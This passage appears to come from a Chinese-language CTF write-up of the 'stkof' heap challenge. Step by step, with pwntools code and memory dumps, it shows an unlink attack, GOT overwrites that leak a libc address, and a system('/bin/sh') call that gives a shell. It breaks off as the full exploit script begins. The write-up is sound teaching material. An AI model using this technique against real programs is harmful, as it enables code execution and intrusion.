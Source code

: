```python
# overwrite global[3]'s chunk's prev_size
# make it believe that prev chunk is at global[2]
payload += p64(0x30)
# make it believe that prev chunk is free
payload += p64(0x90)
edit(2, len(payload), payload)
free(3) #unlink
```
0x602140处的内容:
```
0x602120:	0x0000000000000000	0x0000000000000000
0x602130:	0x0000000000000000	0x0000000000000000
0x602140:	0x0000000000000000	0x0000000001e40020
0x602150:	0x0000000000602138	0x0000000000000000
0x602160:	0x0000000000000000	0x0000000000000000
```
`free`做了一件事:*向前合并*
> 由于我们的溢出促使free函数相信我们的`02chunk`是`free`, 向前合并.
结果:
```
fd -> bk = bk ===> [head + 16 - 0x18 + 0x18] = head + 16 - 0x10
[0x602150] = 0x602140
bk -> fd = fd ===> [head + 16 - 0x10 + 0x10] = head + 16 - 0x18
[0x602150] = 0x602138
```
##### 3. 写入
```python
payload = 'a' * 8 + p64(stkof.got['free']) + p64(stkof.got['puts']) + p64(stkof.got['atoi'])
edit(2, len(payload), payload)
```
结果:
```
0x602130:	0x0000000000000000	0x6161616161616161
0x602140:	0x0000000000602018	0x0000000000602020
0x602150:	0x0000000000602088	0x0000000000000000
```
###### 4. `[free@got] = puts@plt`
```
payload = p64(stkof.plt['puts'])
edit(0, len(payload), payload)
```
##### 5. leak address
```
free(1)
```
##### 6. `find system address and binsh address, then turn atoi@got into system_addres, send "/bin/sh" address`
```python
binsh_addr = puts_address - (libc.symbols['puts'] - next(libc.search('/bin/sh')))
system_addr =  puts_address - (libc.symbols['puts'] -libc.symbols['system'])
edit(2, len(payload), payload)
p.send(p64(binsh_addr))
```
### `The Whole EXP`
```
from pwn import *

context.terminal = ['gnome-terminal', '-x', 'sh', '-c']
if args['DEBUG']:
    context.log_level = 'debug'

context.binary = "./stkof"
stkof = ELF('./stkof')

```